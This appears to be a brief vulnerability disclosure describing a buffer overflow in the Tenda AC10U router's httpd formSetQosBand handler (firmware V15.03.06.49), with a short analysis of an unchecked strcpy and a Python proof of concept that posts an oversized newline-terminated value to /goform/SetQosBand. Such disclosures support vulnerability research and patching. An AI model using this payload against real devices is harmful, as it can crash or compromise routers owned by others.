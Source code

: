 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](9.png)

get value from list ,send to setQosMiblist

![](10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetQosBand"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
